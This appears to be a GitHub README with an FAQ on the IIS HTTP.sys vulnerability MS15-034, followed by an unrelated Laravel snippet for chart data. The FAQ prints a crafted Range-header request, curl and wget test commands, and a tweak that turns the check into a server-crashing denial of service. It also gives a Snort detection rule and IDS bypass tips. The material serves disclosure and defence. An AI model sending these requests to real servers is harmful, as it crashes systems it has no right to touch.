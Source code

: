 IIS-Vulnerability_MS015
MS15-034: Vulnerability in HTTP.sys could allow remote code execution: April 14, 2015
Summary
This security update resolves a vulnerability in Microsoft Windows. The vulnerability could allow remote code execution if an attacker sends a specially crafted HTTP request to an affected Windows system. The security update addresses the vulnerability by modifying how the Windows HTTP stack handles requests.
```bash
GET /%7Bwelcome.png HTTP/1.1
User-Agent: Wget/1.13.4 (linux-gnu)
Accept: */*
Host: [server-ip]
Connection: Keep-Alive
Range: bytes=18-18446744073709551615
```
===========================

FAQ

1 - Which Versions of Windows Are Vulnerable?
Windows 7, Windows Server 2008 R2, Windows 8, Windows Server 2012, Windows 8.1, and Windows Server 2012 R2. HTTP.sys is used by any version of IIS running on one of these operating systems. HTTP.sys was introduced with IIS 6.

2 - Will an IPS protect me?
Yes. If you have the right rules installed. For example, here is a simple rule for Snort:

alert tcp $EXTERNAL_NET any -> $HOME_NET 80 (msg: " MS15-034 Range Header HTTP.sys Exploit"; content: "|0d 0a|Range: bytes="; nocase; content: "-"; within: 20 ; byte_test: 10,>,1000000000,0,relative,string,dec ; sid: 1001239;)

(byte_test is limited to 10 bytes, so I just check if the first 10 bytes are larger then 1000000000)

Watch out, there are some tricks to bypass simple rules, like adding whitespace to the Range: header's value. More info here.

3 - Will the exploit work over SSL?
Yes. Which may be used to bypass your IDS or other network protections

4 - Have you seen active exploits "in the wild"?
Not yet. We have seen working DoS exploits, but have not detected them in our honeypots. Erratasec conducted a (partial) scan of the Internet using a non-DoS exploit with the intend to enumerate vulnerable systems.

5 - How do I know if I am vulnerable?
Send the following request to your IIS server:

GET / HTTP/1.1 Host: MS15034 Range: bytes=0-18446744073709551615 If the server responds with "Requested Header Range Not Satisfiable", then you may be vulnerable.

Test Scripts:

(powershell removed as it doesn't support 64 bit intergers... worked without error for me, but something else may have been wrong with it)

curl -v [ipaddress]/ -H "Host: test" -H "Range: bytes=0-18446744073709551615"

wget -O /dev/null --header="Range: 0-18446744073709551615" http://[ip address]/

6 - Can this vulnerability be exploited to do more then a DoS?
In it's advisory, Microsoft considered the vulnerability as a remote code execution vulnerability. But at this point, no exploit has been made public that executed code. Only DoS exploits are available. There also appears to be an information disclosure vulnerability. If the lower end of the range is one byte less then the size of the retrieved file, kernel memory is appended to the output before the system reboots. In my own testing, I was not able to achieve consistent information leakage. Most of the time, the server just crashes.

[Turns out, the file does not have to be > 4GB. Tried it with a short file and it worked. The >4GB information came from a bad interpretation of mine of the chinese article in the "Resources" section]

7 - How to I launch the DoS exploit?
In the example PoC above, change the "0-" to "20-". (has to be smaller then the size of the file retrieved, but larger then 0)

8 - What is special about the large number in the PoC exploit?

It is 2^64-1. The largest 64 bit number (hex: 0xFFFFFFFFFFFFFFFF)

9 - Any Other Workarounds?
In IIS 7, you can disable kernel caching.

10 - Is only IIS vulnerable? Or are other components affected as well?
Potentially, anything using HTTP.sys and kernel caching is vulnerable. HTTP.sys is the Windows library used to parse HTTP requests. However, IIS is the most common program exposing HTTP.sys. You may find potentially vulnerable components by typing: netsh http show servicestate (thx to @Gmanfunky)

11 - Will IIS Request Filtering Protect Me?
No. IIS Request Filtering happens after the Range header is parsed.

References:

https://ma.ttias.be/remote-code-execution-via-http-request-in-iis-on-windows/ https://technet.microsoft.com/library/security/MS15-034 https://support.microsoft.com/en-us/kb/3042553 http://blogs.360.cn/blog/cve_2015_6135_http_rce_analysis (Chinese)

Thanks to Threatstop for providing an IIS server for testing.



***************

![alt text](https://raw.githubusercontent.com/Hadi-Abedzadeh/Practical-mini-codes/master/chart.png?raw=true)

Refrence: https://www.reddit.com/r/laravel/comments/2xeqz2/laravel_and_eloquent_count_with_chartjs/
and for ajax you can use this link: https://dyclassroom.com/chartjs/chartjs-how-to-create-line-graph-using-data-from-mysql-mariadb-table-and-php
Google url was searched: https://www.google.com/search?rlz=1C1GCEA_enIR936IR936&sxsrf=ALeKk03n3HyeFFzwOsmVzcOkoHZ0r4FItw:1621799880602&q=get+data+mysql+by+date+day+to+show+in+chart+js&spell=1&sa=X&ved=2ahUKEwjQ-p2uy-DwAhXPOcAKHeHsCJ4QBSgAegQIARAt&biw=1920&bih=969

keyword was searched: get data mysql by date day to show in chart js

```
//Laravel ORM
$start = '2021-04-12';
$end   = '2021-05-12';

// Get data from period
// $get_date = User::where('created_at', '>=', $start)->where('created_at', '<=', $end)->groupBy(DB::raw('DATE(users.created_at)'))->get([DB::raw('COUNT(*) as count'), DB::raw('DATE(users.created_at) as date')]);
  
// Get data from 7 day ago
// $get_date = User::where('created_at', '>=', DB::raw('DATE(NOW()) - INTERVAL 7 DAY'))->groupBy(DB::raw('DATE(users.created_at)'))->get([DB::raw('COUNT(*) as count'), DB::raw('DATE(users.created_at) as date')]);
// RAW QUERY

// select COUNT(*) as count, DATE(users.created_at) as date from `users` where `created_at` >= '2021-04-12' and `created_at` <= '2021-05-12' group by DATE(users.created_at)

// select COUNT(*) as count, DATE(users.created_at) as date from `users` where `created_at` >= DATE(NOW()) - INTERVAL 7 DAY group by DATE(users.created_at)

dd($get_date);
```

